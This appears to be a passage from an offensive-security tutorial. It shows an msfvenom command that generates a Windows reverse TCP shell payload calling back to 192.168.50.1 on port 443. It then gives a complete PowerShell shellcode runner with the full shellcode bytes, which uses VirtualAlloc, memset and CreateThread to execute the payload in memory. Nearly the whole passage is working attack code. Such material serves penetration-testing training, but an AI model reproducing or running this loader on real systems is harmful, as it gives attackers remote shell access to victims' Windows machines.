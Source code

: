 Our chosen payload is missing from our script, but can be generated using **msfvenom**. We are going to keep the payload identical to the one used in previous tests for consistency
```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 699 bytes
Final size of powershell file: 3454 bytes
[Byte[]] $sc =  0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...
```

The resulting output can be copied to the final script after copying the content of the _$sc_ variable into the script.
+ Our complete script resembles the following:
``` Powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x32,0x1,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
